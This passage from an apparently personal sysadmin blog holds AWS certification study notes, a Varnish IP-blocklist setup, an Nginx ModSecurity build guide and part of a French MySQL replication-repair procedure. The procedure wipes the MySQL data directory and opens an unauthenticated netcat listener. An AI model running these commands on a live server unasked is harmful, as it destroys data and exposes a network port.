<li>ElastiCache (memcached / Redis)</li>
<li>RDS runs on VM</li>
<li>You cannot log in to these operating systems however.</li>
<li>Patching of the RDS Operating System and DB is Amazon’s responsibility.</li>
<li>RDS is NOT Serverless</li>
<li>Aurora Serverless Is Serverless</li>
<li>2 types of Backups for RDS:<ul>
<li>Automated Backups</li>
<li>Database Snapshots</li>
</ul>
</li>
<li>Read Replicas can be Multi-AZ<ul>
<li>Used to increas performance.</li>
<li>Must have backups turned on.</li>
<li>Can be in different regions.</li>
<li>Can be MySQL, PostrgeSQL, MariaDB, Oracle, Aurora.</li>
<li>Can be promoted to master, this will break the Read Replica.</li>
<li>MSSQL is now available to be used with Read Replicas.</li>
</ul>
</li>
<li>MutliAZ:<ul>
<li>Used for DR.</li>
<li>You can force a failover from one AZ to another by rebooting the RDS instance.</li>
</ul>
</li>
<li><strong>DynamoDB</strong>:<ul>
<li>Stored on SSD storage.</li>
<li>Spread accross 3 geographically distinct data centres.</li>
<li>Eventual Consistent Reads (default)</li>
<li>Strongly Consistent Reads.</li>
</ul>
</li>
<li><strong>RedShift</strong>:<ul>
<li>Is used for Business intelligence.</li>
<li>Available in only 1 AZ.</li>
<li>Backups are enabled by default with a 1 day retention period.</li>
<li>Maximum retention period is 35 days.</li>
<li>Redshift always attempts to maintain at least 3 copies of your data (the original and replica on the compute nodes and backup in Amazon S3)</li>
<li>RedShift can also asynchronously replicate you snapshots to S3 in another region for disaster recovery.</li>
</ul>
</li>
<li><strong>Aurora</strong>:<ul>
<li>2 copies of your data are contained in each AZ, with minimum of 3 AZ. 6 copies of your data.</li>
<li>You can share Aurora snapshots with other AWS accounts.</li>
<li>3 types of replicas available. Aurora Replicas, MySQL replicas &amp; PostgreSQL replicas. Automated failover is only available with Aurora Replicas.</li>
<li>Aurora has automated backups turned on by default. You can also take snapshots with Aurora. You can share these snapshots with other AWS accounts.</li>
<li>Use Aurora Serverless if you want a simple, cost effective option for infrequent, intermittent, or unpredictable workloads.</li>
</ul>
</li>
<li><strong>Elasticache</strong>:<ul>
<li>Use ElastiCache to increase database and web application performance.</li>
<li>Redis is Multi-AZ</li>
<li>You can do back ups and restores of Redis.</li>
<li>If you need to scale horizontally, use Memcached.</li>
</ul>
</li>
</ul>
<h1 id="Advanced-IAM"><a href="#Advanced-IAM" class="headerlink" title="Advanced IAM"></a>Advanced IAM</h1><p><strong>AWS Directory Service [SAA-C02]</strong><br><em>Here we’ll go over AWS Directory Service, which offers multiple identity management solutions — such as Microsoft Managed AD, AD Connector, and Simple AD — to suit different use cases. Each solves a different part of the problem for IT admins and DevOps engineers in managing user access to AWS resources.</em></p>
<ul>
<li>Family of managed services.</li>
<li>Connect AWS resources with on-premises AD.</li>
<li>Standalone directory in the cloud.</li>
<li>Use existing corporate credentials.</li>
<li>SSO to any domain-joined EC2 instance.</li>
<li><strong>AD compatible</strong>:<ul>
<li>Managed Microsoft AD (aka, Directory Service for Microsoft Active Directory).</li>
<li>AD Connector.</li>
<li>Simple AD.</li>
</ul>
</li>
<li><strong>NOT AD Compatible</strong>:<ul>
<li>Cloud Directory.</li>
<li>Cognito user pool.</li>
</ul>
</li>
</ul>
<p><strong>IAM Policies [SAA-C02]</strong><br><em>we’ll discuss the structure of IAM policies and the logic by which their rules are applied when determining access to AWS resources</em></p>
<ul>
<li>Amazon Resource Name (ARN) all begin with: arn:partition:service:region:account_id:</li>
<li>JSON Document that defines permission.</li>
<li>Identity Policy.</li>
<li>Resource Policy.</li>
<li>No effect until attached.</li>
<li>A Policy is a list of <strong>statements</strong> (EAR PEAR).</li>
<li>Each statements matches an <strong>AWS API request</strong></li>
<li>Effect is either Allow or Deny.</li>
<li>Not explicitly allowed == <strong>implicitly denied</strong>.</li>
<li>Explicitly deny &gt; everything else</li>
<li>Only attached policies have effect.</li>
<li>AWS <strong>joins</strong> all applicable policies.</li>
<li>AWS-managed VS. Customer-managed</li>
<li><strong>Permission Boundaries</strong>:<ul>
<li>Used to <strong>delegate</strong> administration to other users.</li>
<li>Prevent <strong>privilege escalation</strong> or <strong>unnecessarily broad permissions</strong>.</li>
<li>Control <strong>maxium</strong> permissions an IAM policy can grant.</li>
</ul>
</li>
<li><strong>Use cases</strong>:<ul>
<li>Developers creating roles for Lambda functions.</li>
<li>Application owners creating roles for EC2 instances.</li>
<li>Admins creating ad hoc users</li>
</ul>
</li>
</ul>
<p><strong>AWS Resource Access Manager (RAM) [SAA-C02]</strong>:</p>
<ul>
<li>RAM allows you to securely <strong>share AWS resources</strong> with any AWS account or within your AWS Organization.</li>
</ul>
<p><strong>AWS Single Sign-On [SAA-C02]</strong>:<br><em>AWS SSO provides a user portal so users can find and access the roles they can assume in their assigned AWS accounts and business applications in one place. AWS SSO offers pre-configured SAML integrations to many business applications, including Salesforce, G Suite, and Office 365.</em></p>
<ul>
<li>If you SAML 2.0 in a exam question look for SSO in one of the answer.</li>
</ul>
<p><strong>Advanced IAM Summary [SAA-C02]</strong></p>
<ul>
<li><strong>Directory Service</strong>:</li>
<li>Active directory.</li>
<li>Connect AWS resources with on-premises AD.</li>
<li>SSO to any domain-joined EC2 instance</li>
<li>AWS Managed Microsoft AD</li>
<li>AD trust (use to extend AD inside AWS to your on-premises environment)</li>
<li>AWS VS. Customer responsibility.<ul>
<li><strong>Simple AD</strong>:<ul>
<li>Does not support trusts (can’t join simple AD to you on-premises AD) If you want to do that you need to use :</li>
</ul>
</li>
</ul>
</li>
<li><strong>AD Connector</strong>: (this is a directory gateway or proxy for your on-premises AD)</li>
<li><strong>Cloud directory</strong>:(service for developers looking to work with hierarchical data), it has nothing to do with Microsoft AD.</li>
<li><p><strong>Cognito user pools</strong>: (manage user directory that works with social media identities)</p>
</li>
<li><p><strong>AD compatible</strong>:</p>
</li>
<li>Managed Microsoft AD (aka, Directory Service for Microsoft Active Directory).</li>
<li>AD Connector.</li>
<li>Simple AD.</li>
<li><strong>NOT AD Compatible</strong>:</li>
<li>Cloud Directory.</li>
<li><p>Cognito user pool.</p>
</li>
<li><p><strong>IAM Policies</strong>:</p>
</li>
<li>arn</li>
<li>IAM Policy structure</li>
<li>Effect/Action/Resource</li>
<li>Identity VS. resource policies</li>
<li>Policy evaluation logic</li>
<li>AWS managed VS. Customer managed</li>
<li><p>Permission boundaries.</p>
</li>
<li><p><strong>Ressource Access Manager (RAM)</strong></p>
</li>
<li>Resource sharing between accounts.</li>
<li>Individual accounts and AWS Organizations.</li>
<li><p>Types of resources you can share.</p>
</li>
<li><p><strong>Single-Sign-On (SSO)</strong></p>
</li>
<li>Centrally manage access</li>
<li>Exemple: G Suite, Office 365, Salesforce</li>
<li>Use existing identities.</li>
<li>Account-level permissions</li>
<li>SAML </li>
</ul>
<h1 id="Route-53"><a href="#Route-53" class="headerlink" title="Route 53"></a>Route 53</h1><p><em>Work in progress \o/</em></p>
<h1 id="VPC"><a href="#VPC" class="headerlink" title="VPC"></a>VPC</h1><p><em>Work in progress \o/</em></p>
<h1 id="HA-Architecture"><a href="#HA-Architecture" class="headerlink" title="HA Architecture"></a>HA Architecture</h1><p><em>Work in progress \o/</em></p>
<h1 id="Applications"><a href="#Applications" class="headerlink" title="Applications"></a>Applications</h1><p><strong>SQS [SAA-C02]</strong><br><em>Simple Queue Service (SQS) provides standard or FIFO queues as a service. It helps applications scale by allowing decoupling of application components and inter-process, -service, and -server messaging.</em></p>
<ul>
<li>SQS is pull-based, not pushed-based (you have to have an EC2 pulling the message out of the queue)</li>
<li>Messages are 256KB in size.</li>
<li>Messages can be kept in the queue from 1 minute to 14 days; the default retention period is 4 days.</li>
<li>Visibility Timeout is the amount of time that the message in invisible in the SQS queue after a reader picks up that message. Provided the job is processed before the visibility timeout expires, the message will then be deleted from the queue. If the job is not processed within that time, the message will become visible again and another reader will process it. This could result in the same message being delivered twice.</li>
<li>Visibility timeout maximum is 12 Hours.</li>
<li>SQS guarantees that your messages will be processed at least once.</li>
<li>SQS <strong>long polling</strong> is a way to retrieve messages from your Amazon SQS queue. While the regular short polling returns immediately (even if the message queue being polled is empty), long polling doesn’t return a response until a message arrives in the message queue, or the long poll times out.</li>
<li>Any time you see a scenario based question about <strong>“decoupling”</strong> your infrastructure - <strong>think SQS.</strong></li>
</ul>
<p><em>Work in progress \o/</em></p>
<h1 id="Security"><a href="#Security" class="headerlink" title="Security"></a>Security</h1><p><em>Work in progress \o/</em></p>
<h1 id="Serverless"><a href="#Serverless" class="headerlink" title="Serverless"></a>Serverless</h1><p><strong>Lambda</strong>:<br><em>Lambda is an essential service in AWS. It’s a Function as a Service product that is a key part of event-driven and serverless architectures. This Part walks through Lambda architecture in detail, both from a theoretical and practical perspective.</em><br>Datacenter =&gt; IAAS (EC2 in 2006) =&gt; PAAS =&gt; Containers =&gt; Serverless :-)</p>
<ul>
<li>Lambda is the Ultimate Abstraction Layer<ul>
<li>Data Centers</li>
<li>Hardware</li>
<li>Assembly Code / protocols</li>
<li>High level languages</li>
<li>OS</li>
<li>Application Layer / AWS APIs</li>
<li>AWS Lambda</li>
</ul>
</li>
<li>Lambda is a compute service<br>[..]</li>
<li>Traditional vs Serverless Architecture !</li>
<li>Lambda scales out (not up) automatically</li>
<li>Lambda functions are indenpendant, 1 event = 1 function</li>
<li>Lambda is Serverless.</li>
<li>Know what services are serverless (DynamoDB S3 Lambda Aurora API Gateway)</li>
<li>Lambda functions can trigger other lambda functions, 1 event can = x functions if functions trigger other functions</li>
<li>Architectures can get extremely complicated, AWS X-ray allows you to debug what is happening.</li>
<li>Lambda can do thins globally, you can use it to back up S3 buckets to other S3 buckets etc.</li>
<li>Know your triggers. (ex: RDS can NOT trigger lambda)<br><em>Work in progress \o/</em></li>
</ul>
<p>To be continued…&gt;(((°&gt;…</p>
<p>Sources:<br><a href="https://linuxacademy.com/cp/modules/view/id/630" target="_blank" rel="noopener">LinuxAcademy: AWS Certified Solutions Architect Associate SAA-C02</a><br><a href="https://aws.amazon.com/faqs/" target="_blank" rel="noopener">AWS Faq</a><br><a href="https://learn.cantrill.io/p/aws-certified-solutions-architect-associate-saa-c02" target="_blank" rel="noopener">learn.cantrill.io</a><br><a href="https://docs.aws.amazon.com/wellarchitected/latest/framework/welcome.html" target="_blank" rel="noopener">AWS Well-Architected Framework</a></p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2020/09/08/AWS-SAAC-02/" data-id="clqobt6hw003mw9iy8i43u7am" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/AWS/">AWS</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-blocklist-IP-address-with-Varnish" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2020/09/01/blocklist-IP-address-with-Varnish/" class="article-date">
  <time datetime="2020-09-01T20:21:42.000Z" itemprop="datePublished">2020-09-01</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/Varnish/">Varnish</a>►<a class="article-category-link" href="/categories/Varnish/blocklist-IP-address-with-Varnish/">blocklist IP address with Varnish</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2020/09/01/blocklist-IP-address-with-Varnish/">blocklist IP address with Varnish</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <h3 id="Example-of-blocking-IP-address-via-Varnish-behind-an-NginX-or-an-ALB-CDN-etc-…"><a href="#Example-of-blocking-IP-address-via-Varnish-behind-an-NginX-or-an-ALB-CDN-etc-…" class="headerlink" title="Example of blocking IP address via Varnish behind an NginX or an ALB, CDN, etc …"></a>Example of blocking IP address via Varnish behind an NginX or an ALB, CDN, etc …</h3><h3 id="Prerequisites"><a href="#Prerequisites" class="headerlink" title="Prerequisites"></a>Prerequisites</h3><p>Make sure that the <em>X-Forwarded-For</em> Header is returned by NginX, ALB, CDN, etc.</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#Nginx vhost conf</span></span><br><span class="line">server &#123;</span><br><span class="line">    [...]</span><br><span class="line">    location / &#123;</span><br><span class="line">        [...]</span><br><span class="line">        proxy_set_header    X-Forwarded-For <span class="variable">$proxy_add_x_forwarded_for</span>;</span><br><span class="line">        [...]</span><br><span class="line">        proxy_pass  http://127.0.0.1:80/;</span><br><span class="line">    &#125;</span><br><span class="line">    [...]</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h3 id="Setting-up-filtering"><a href="#Setting-up-filtering" class="headerlink" title="Setting up filtering"></a>Setting up filtering</h3><p>On the Varnish side, the filtering will go through the following 3 steps:</p>
<ol>
<li>Declaration or use of an ACL for the blocklist</li>
<li>Cleaning the X-Forwarded-For header</li>
<li>IP Cast, Test and Block</li>
</ol>
<h2 id="1-ACL-Blocklist"><a href="#1-ACL-Blocklist" class="headerlink" title="1) ACL Blocklist"></a>1) ACL Blocklist</h2><p>After vcl_init and other acl directives, and before vcl_recv, make sure it is present or create the blocklist ACL and fill in the IPs to blocklist:</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line">[...]</span><br><span class="line">acl whitelist &#123;</span><br><span class="line">    [...]</span><br><span class="line">&#125;</span><br><span class="line"> </span><br><span class="line"> </span><br><span class="line">acl blacklist &#123;</span><br><span class="line">    <span class="string">"X.X.X.X"</span>.</span><br><span class="line">    <span class="string">"Y.Y.Y.Y"</span>/24.</span><br><span class="line">&#125;</span><br><span class="line"> </span><br><span class="line">sub vcl_recv &#123;</span><br><span class="line">    [...]</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h2 id="2-Cleaning-the-XFF-Header"><a href="#2-Cleaning-the-XFF-Header" class="headerlink" title="2) Cleaning the XFF Header"></a>2) Cleaning the XFF Header</h2><p>The created ACL contains objects of type IP, however, the XFF Header is a character string.<br>It is therefore necessary to cast the string into an IP object using the ip function of the sdt module.</p>
<p>However, this function takes as input only one IP (as a string) <a href="see https://varnish-cache.org/docs/6.1/reference/vmod_std.generated.html#func-ip">Source: Varnish doc</a> , so you have to clean up the X-Forwarded-For Headers so that they contain only one IP:</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">sub vcl_recv &#123;</span><br><span class="line">    [...]</span><br><span class="line">    <span class="comment"># forward client IP</span></span><br><span class="line">    <span class="keyword">if</span> (req.restarts == 0) &#123;</span><br><span class="line">        <span class="comment"># </span></span><br><span class="line">	<span class="comment"># We only get the first IP of the XFF header if it exists,</span></span><br><span class="line">	<span class="comment"># otherwise we take the IP present in client.ip</span></span><br><span class="line">	<span class="comment">#</span></span><br><span class="line">        <span class="keyword">if</span> (req.http.X-Forwarded-For) &#123; <span class="built_in">set</span> req.http.X-Forwarded-For = regsub(req.http.X-Forwarded-For,<span class="string">"^(([0-9]&#123;1,3&#125;\.)&#123;3&#125;([0-9]&#123;1,3&#125;)).*"</span>,<span class="string">"\1"</span>); &#125;</span><br><span class="line">        <span class="keyword">else</span> &#123; <span class="built_in">set</span> req.http.X-Forwarded-For = client.ip; &#125;</span><br><span class="line">    &#125;</span><br><span class="line">    [...]</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>It is possible not to overwrite the XFF Header and instead create another Header which will be used for all the ACL tests, it will then be necessary to replace the set <em>req.http.X-Forwarded-For</em> by set <em>req.http.My-Custom-Header-Name</em> and be careful to replace it also wherever an ACL match is made.</p>
<p>/!\ Ideally, this rule should be placed just after the loadbalancer’s health_check (httpprobe) so that all subsequent rules can benefit from it /!\</p>
<h2 id="3-IP-Cast-Test-and-Block"><a href="#3-IP-Cast-Test-and-Block" class="headerlink" title="3) IP Cast, Test, and Block"></a>3) IP Cast, Test, and Block</h2><p>Finally, you just have to cast the IP (string) into an IP object, check if it matches the ACL Blocklist and, if necessary, block it ;) </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">sub vcl_recv &#123;</span><br><span class="line">    [...]</span><br><span class="line">    <span class="comment"># BlockList</span></span><br><span class="line">    <span class="keyword">if</span> (std.ip(req.http.X-Forwarded-For,<span class="string">"0.0.0.0"</span>) ~ blacklist) &#123;</span><br><span class="line">        <span class="built_in">return</span>(synth(403, <span class="string">"Not allowed."</span>));</span><br><span class="line">    &#125;</span><br><span class="line">    [...]</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>Warning ! You must place this directive after cleaning the XFF header, and not before, otherwise it will not work !</p>
<h3 id="Debug-amp-Test"><a href="#Debug-amp-Test" class="headerlink" title="Debug &amp; Test"></a>Debug &amp; Test</h3><p>If the filtering does not work, you can test/check the content of the XFF Header with varnishncsa as follow: </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">varnishncsa -F <span class="string">'%&#123;X-Forwarded-For&#125;i %l %u %t "%r" %s %b "%&#123;Referer&#125;i" "%&#123;User-agent&#125;i"'</span></span><br></pre></td></tr></table></figure>
<p>or to check which directives and directive results were applied to the request with varnishlog.</p>
<p>Happy blocking \o/</p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2020/09/01/blocklist-IP-address-with-Varnish/" data-id="clqobt6c1001ew9iybqmyog1t" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/varnish/">varnish</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-Nginx-ModSecurity" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2020/07/22/Nginx-ModSecurity/" class="article-date">
  <time datetime="2020-07-22T21:21:42.000Z" itemprop="datePublished">2020-07-22</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/Nginx/">Nginx</a>►<a class="article-category-link" href="/categories/Nginx/Playing-with-Nginx-and-Dynamic-Modules/">Playing with Nginx and Dynamic Modules</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2020/07/22/Nginx-ModSecurity/">Nginx-ModSecurity</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>Yo this is a work in progress…highly inspired by <a href="https://linuxacademy.com/" target="_blank" rel="noopener">Linuxacademy</a>.<br>So let’s play with ModeSecurity and ModeSecurity-nginx.</p>
<p>OS: Ubuntu 20.04<br>CPU: 2<br>RAM: 2G<br>NGINX-VERSION=1.18.0</p>
<h2 id="install-pre-requisites"><a href="#install-pre-requisites" class="headerlink" title="install  pre-requisites:"></a>install  pre-requisites:</h2><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">apt-get install git build-essential libpcre3 libpcre3-dev libssl-dev libtool autoconf apache2-dev libxml2-dev libcurl4-openssl-dev automake pkgconf zlib1g zlib1g-dev</span><br></pre></td></tr></table></figure>
<h2 id="clone-compile-Install-core-library-for-ModeSecurity"><a href="#clone-compile-Install-core-library-for-ModeSecurity" class="headerlink" title="clone / compile / Install core library for ModeSecurity"></a>clone / compile / Install core library for ModeSecurity</h2><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="built_in">cd</span> /opt</span><br><span class="line">git <span class="built_in">clone</span> --depth 1 -b v3/master https://github.com/SpiderLabs/ModSecurity</span><br><span class="line"><span class="built_in">cd</span> ModSecurity</span><br><span class="line">git submodule init</span><br><span class="line">git submodule update</span><br><span class="line">./build.sh</span><br><span class="line">./configure</span><br><span class="line">make</span><br><span class="line">make install</span><br></pre></td></tr></table></figure>
<p><em>/!\ FYI compilation is quite long with this spec: Ubuntu 20.04 (2CPUs and 2G RAM) /!\</em></p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">time make install</span><br><span class="line">real    14m16.427s &lt;==&gt; :( </span><br><span class="line">user    12m54.898s</span><br><span class="line">sys     0m42.830s</span><br></pre></td></tr></table></figure>
<h2 id="Donwload-Nginx-source-code-Build-a-dynamic-module-using-ModeSecurity-nginx"><a href="#Donwload-Nginx-source-code-Build-a-dynamic-module-using-ModeSecurity-nginx" class="headerlink" title="Donwload Nginx source code / Build a dynamic module using ModeSecurity-nginx"></a>Donwload Nginx source code / Build a dynamic module using ModeSecurity-nginx</h2><p><em>Downloading ModeSecurity-nginx</em><br><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="built_in">cd</span> /opt</span><br><span class="line">git <span class="built_in">clone</span> --depth 1 https://github.com/SpiderLabs/ModSecurity-nginx.git</span><br></pre></td></tr></table></figure></p>
<p><em>verify Nginx version and download Sources</em><br><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#check-version</span></span><br><span class="line">nginx -v</span><br><span class="line">nginx version: nginx/1.18.0</span><br><span class="line">NGINX_VERSION=1.18.0</span><br><span class="line">wget http://nginx.org/download/nginx-<span class="variable">$NGINX_VERSION</span>.tar.gz</span><br><span class="line">tar zxvf nginx-<span class="variable">$NGINX_VERSION</span>.tar.gz</span><br><span class="line"></span><br><span class="line"><span class="comment">#Configure and build dynamic module</span></span><br><span class="line"><span class="built_in">cd</span> nginx-1.18.0</span><br><span class="line">./configure --with-compat --add-dynamic-module=../ModSecurity-nginx</span><br><span class="line">make modules</span><br><span class="line">cp objs/ngx_http_modsecurity_module.so /etc/nginx/modules/</span><br></pre></td></tr></table></figure></p>
<p><em>Load ModSecurity dynamic module</em><br><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Load ModSecurity dynamic module outside events or htpp context</span></span><br><span class="line">load_module /etc/nginx/modules/ngx_http_modsecurity_module.so;</span><br></pre></td></tr></table></figure></p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">mkdir /etc/nginx/modsecurity</span><br><span class="line">cp /opt/ModSecurity/modsecurity.conf-recommended /etc/nginx/modsecurity/modsecurity.conf</span><br><span class="line">cp /opt/ModSecurity/unicode.mapping /etc/nginx/modsecurity/unicode.mapping</span><br><span class="line"></span><br><span class="line">vim /etc/nginx/modsecurity/modsecurity.conf +230</span><br><span class="line">and change the SecAuditLog path <span class="keyword">for</span> something like /var/<span class="built_in">log</span>/nginx/modsec_audit.log</span><br><span class="line">and add those two lines inside your vhost:</span><br><span class="line"></span><br><span class="line">modsecurity on;</span><br><span class="line">modsecurity_rules_file /etc/nginx/modsecurity/modsecurity.conf;</span><br></pre></td></tr></table></figure>
<h2 id="Reload-Nginx-and-enjoy-o"><a href="#Reload-Nginx-and-enjoy-o" class="headerlink" title="Reload Nginx and enjoy \o/"></a>Reload Nginx and enjoy \o/</h2><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">nginx -t</span><br><span class="line">systemctl reload nginx</span><br></pre></td></tr></table></figure>
<p>Work is still in progress but Nginx is reloading and everything looks great for now. :) </p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2020/07/22/Nginx-ModSecurity/" data-id="clqobt69c0004w9iyfdf8eb3z" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/ModSecurity/">ModSecurity</a></li><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/nginx/">nginx</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-replication-master-master" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2020/05/27/replication-master-master/" class="article-date">
  <time datetime="2020-05-26T22:01:29.000Z" itemprop="datePublished">2020-05-27</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/MySQL/">MySQL</a>►<a class="article-category-link" href="/categories/MySQL/Reparation-de-replication-master-master-sans-lock/">Réparation de réplication master/master (sans lock)</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2020/05/27/replication-master-master/">replication-master-master</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <h3 id="Reparation-de-replication-master-master-sans-lock"><a href="#Reparation-de-replication-master-master-sans-lock" class="headerlink" title="Réparation de réplication master/master sans lock"></a>Réparation de réplication master/master sans lock</h3><p><strong>Objectif</strong></p>
<p>On part du principe que notre serveur BDD-01A est OK mais que BDD-01B est <em>KO</em>.</p>
<h3 id="Actions-a-effectuer-sur-le-serveur-BDD-01B-le-KO"><a href="#Actions-a-effectuer-sur-le-serveur-BDD-01B-le-KO" class="headerlink" title="Actions à effectuer sur le serveur BDD-01B (le KO)"></a>Actions à effectuer sur le serveur BDD-01B (le KO)</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># installation des outils nécessaires</span></span><br><span class="line"></span><br><span class="line">apt-get update</span><br><span class="line">apt-get install percona-xtrabackup-24 pigz</span><br></pre></td></tr></table></figure>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># On coupe la répli et on supprime les données car elles ne sont plus consistantes.  </span></span><br><span class="line"></span><br><span class="line">mysql &gt; stop slave;</span><br><span class="line">mysql &gt; reset slave;</span><br><span class="line">service mysql stop</span><br><span class="line">rm -rf /var/lib/mysql/*</span><br></pre></td></tr></table></figure>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Puis on se prépare à la réception des données à jour.</span></span><br><span class="line">mkdir /var/lib/mysql</span><br><span class="line"><span class="built_in">cd</span> /var/lib/mysql</span><br><span class="line"><span class="built_in">ulimit</span> -n 65535</span><br><span class="line">nc <span class="_">-l</span> -p 4242 | gunzip | tar ixvf -</span><br></pre></td></tr></table></figure>
<ul>
<li>Ulimit pour augmenter le nombre de fichiers max dans le dossier</li>
<li>nc pour avoir un pipe réseau a travers duquel transitera les données</li>
<li>gunzip et tar pour extraire ce que nous allons compresser de l’autre coté du pipe</li>
</ul>
<h3 id="Actions-a-effectuer-sur-le-serveur-BDD-01A-le-OK"><a href="#Actions-a-effectuer-sur-le-serveur-BDD-01A-le-OK" class="headerlink" title="Actions à effectuer sur le serveur BDD-01A (le OK)"></a>Actions à effectuer sur le serveur BDD-01A (le OK)</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># Installation des outils nécessaires</span></span><br><span class="line">apt-get update</span><br><span class="line">apt-get install percona-xtrabackup-24 pigz</span><br></pre></td></tr></table></figure>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># On coupe la réplication</span></span><br><span class="line">mysql &gt; reset master;</span><br><span class="line">mysql &gt; stop slave;</span><br><span class="line">mysql &gt; reset slave;</span><br></pre></td></tr></table></figure>
